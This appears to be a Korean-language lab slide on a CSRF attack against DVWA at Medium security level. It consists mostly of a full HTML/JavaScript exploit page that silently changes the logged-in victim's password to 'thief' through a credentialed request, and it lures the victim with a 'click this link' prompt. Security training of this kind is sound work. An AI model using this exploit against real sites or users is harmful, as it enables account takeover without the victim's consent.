

3-3) CSRF

# Security Level : Medium
3. 공격 코드 (Low Level도 공격가능 )
# vim crsf_ajax.html
<html>
	<meta charset="UTF-8">
	<head>
	</head>

	<script language="javascript"> //javascript로 코드 작성
		function csrf() {
			var host="192.168.80.11"; //자기 자신의 주소, 해킹대상 주소
			var url = "http://" + host + "/dvwa/vulnerabilities/csrf/?password_new=thief&password_conf=thief&Change=Change#";
		//패스워드를 바꿀때, 클라이언트의 요청(GET방식, url에 그대로 드러남)
            //패스워드는 thief로 설정
           		var xmlh = new XMLHttpRequest();
            //http request를 쉽게 보내주는 인스턴스
            //url열고 request msg를 써주기만 하면 된다

			xmlh.open("GET",url,true);
            //서버로부터 응답을 받은후, 요청할 때 쓴다.
            //순서대로 http 요구방식, url, true : 비동기적, false : 동기적
			xmlh.withCredentials="true";
            //쿠키값을 넣어주는 변수.true로 지정해주지 않으면,쿠키값이 들어가지 않음
            //쿠키값이 없게되면, 서버는 클라이언트가 누군지 모르게 되어 클라이언트가
            //접속하지 않은 요청이 되어 버린다.

			xmlh.send();
            //요청을 보내는 함수이다.
		alert("your password thief");
            //비밀번호가 thief로 바뀌었다고, 경고창 띄워주는 기능

		}
	</script>

	<body>
		<h2><a href="javascript:csrf()">HI plz click this link</a></h2><br>
            //사용자 단에 보여지는 화면 구성(HI plz click this link라고 뜬다)
	</body>
</html>